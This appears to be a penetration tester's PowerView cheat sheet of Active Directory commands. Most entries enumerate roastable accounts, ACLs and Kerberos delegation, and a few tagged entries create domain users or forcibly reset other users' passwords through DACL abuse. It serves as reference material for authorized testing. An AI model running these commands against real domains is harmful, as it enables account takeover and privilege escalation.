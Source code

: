 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## user - new domain user
```
new-domainuser -SamAccountName jubeaz -AccountPassword $SecPassword -Domain client.offshore.com
```

## User - Get ASREPRoastable users
```powershell
Get-NetUser -PreauthNotRequired
```


## User - Get Kerberoastable users
```powershell
Get-NetUser -SPN
```

## User - Find all groups our current user got access
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## User - Find all users our current user got access
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## User - Find user accounts that have kerberos constrained delegation 
```powershell
Get-NetUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
```


## User - Find user accounts that have kerberos unconstrained delegation 
```powershell
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```


## User - change user password (alternate cred)
#cat/ATTACK/DACL-ABUSE 
```
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|Jubeaz12345+->' -AsPlainText -Force) -Credential $Cred -Domain <dst_domain_fqdn>
```

## User - change user password
#cat/ATTACK/DACL-ABUSE 
```
Set-DomainUserPassword -Identity <target_user> -AccountPassword (ConvertTo-SecureString '<new_password|Jubeaz12345+->' -AsPlainText -Force) -Domain <dst_domain_fqdn>
```